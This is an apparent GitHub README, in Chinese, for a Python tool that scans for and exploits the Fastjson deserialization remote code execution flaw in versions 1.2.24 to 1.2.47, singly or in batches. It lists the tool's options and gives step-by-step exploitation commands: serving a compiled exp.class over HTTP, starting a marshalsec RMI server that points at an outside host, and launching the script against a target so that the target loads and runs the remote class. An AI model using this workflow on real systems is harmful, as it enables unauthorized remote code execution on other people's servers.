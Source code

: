 # Fastjson_Rce
fastjson_rce：xray's gadget！
## 一 说明

- 可检测利用版本：1.2.24-1.2.47

- 实现：单个目标检测、批量目标检测、单个目标利用。

- 使用之前：

  修改代码56行的ceye地址。

  eg：

  `rmi_url = 'rmi://%s.your-ceye_domain/index' % random_str`

  修改代码84行的ceye-token

  eg：

  `http://api.ceye.io/v1/records?token=your-ceye_token&type=dns&filter=`

## 二 使用参数

```powershell
python3 .\check_fastjson.py -h
usage: check_fastjson.py [-h] [-u URL] [-l LIST] [-i INDEX] [-s SAVE]
                         [-t EXPOLOIT_TARGET] [-r RMISERVER]

fastjson批量漏洞检测利用

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     单个需要检测的漏洞url
  -l LIST, --list LIST  批量检测的url列表 eg：url.txt
  -i INDEX, --index INDEX
                        Payload 索引号
  -s SAVE, --save SAVE  存在漏洞url保存的文件名 eg: Vul_url.txt
  -t EXPOLOIT_TARGET, --expoloit_target EXPOLOIT_TARGET
                        漏洞利用目标
  -r RMISERVER, --rmiserver RMISERVER
                        使用marshalsec-0.0.3-SNAPSHOT-all.jar
                        开启的rmi服务地址。eg：rmi://127.0.0.1/exp
```

## 三 利用说明

检测

`python3 check_fastjson.py -u 目标url `   or  `python3 check_fastjson.py -l 目标txt -s 保存结果txt`

返回 payload索引号

利用前需在vps开启http和rmi服务

http目录下放编译好的exp.class

`python3 -m http.server 1234`

使用marshalsec开启rmi服务

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://1.1.1.1:1234/#exp" 9999`

利用

`python3 check_fastjson.py -t 目标target -r rmi://1.1.1.1:9999/exp -i payload索引号 `  

查看返回结果

## 四 参考

[ https://zhuanlan.zhihu.com/p/99075925 ]()

[ https://github.com/zhzyker/exphub.git]()

